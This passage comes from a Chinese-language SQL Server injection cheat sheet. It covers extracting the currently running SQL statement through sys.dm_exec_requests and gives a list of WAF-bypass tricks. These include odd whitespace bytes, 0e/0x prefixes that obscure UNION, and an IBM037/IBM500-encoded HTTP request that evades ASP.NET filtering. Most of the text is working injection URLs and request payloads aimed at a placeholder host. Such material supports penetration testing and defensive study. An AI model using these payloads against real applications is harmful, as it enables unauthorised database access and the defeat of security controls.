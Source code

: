 ## 
##  16. <a name='SQL'></a>爆出当前SQL语句
当前执行的SQL语句可以从`sys.dm_exec_requests`和 `sys.dm_exec_sql_text`中查询
`https://vuln.app/getItem?id=-1%20union%20select%20null,(select+text+from+sys.dm_exec_requests+cross+apply+sys.dm_exec_sql_text(sql_handle)),null,null`
**权限**：如果用户在服务器上具有“查看服务器状态”权限，则该用户将在SQL Server实例上看到所有正在执行的会话；否则，用户将仅看到当前会话。
##  17. <a name='BypassWAF'></a>BypassWAF
非标准的空白字符：%C2%85 или %C2%A0
[https://vuln.app/getItem?id=1unionselect null,@@version,null--](https://vuln.app/getItem?id=1%C2%85union%C2%85select%C2%A0null,@@version,null--)
科学（0e）和十六进制（0x）表示法，用于混淆UNION：
[https://vuln.app/getItem?id=0eunion+select+null,@@version,null--](https://vuln.app/getItem?id=0eunion+select+null,@@version,null--)
[https://vuln.app/getItem?id=0xunion+select+null,@@version,null--](https://vuln.app/getItem?id=0xunion+select+null,@@version,null--)
在FROM和列名之间用点代替空格：
[https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--](https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--)
SELECT和一次性列之间的\N分隔符：
[https://vuln.app/getItem?id=0xunion+select\Nnull,@@version,null+from+users--](https://vuln.app/getItem?id=0xunion+select%5CNnull,@@version,null+from+users--)

###  17.1. <a name='ASP.NETbypass'></a>ASP.NET 编码bypass

```
POST /test/a.aspx?%C8%85%93%93%96%E6%96%99%93%84= HTTP/1.1 
Host: target 
User-Agent: UP foobar 
//Content-Type: application/x-www-form-urlencoded; charset=ibm037
x-up-devcap-post-charset: ibm500 或者ibm037
Content-Length: 40 

%89%95%97%A4%A3%F1=%A7%A7%A7%A7%A7%A7%A7
```
1.添加HTTP头 x-up-devcap-post-charset来表明使用的字符集，代替charset字段  
2.添加UserAgent： UP xxx  
3.参数键值都要编码  

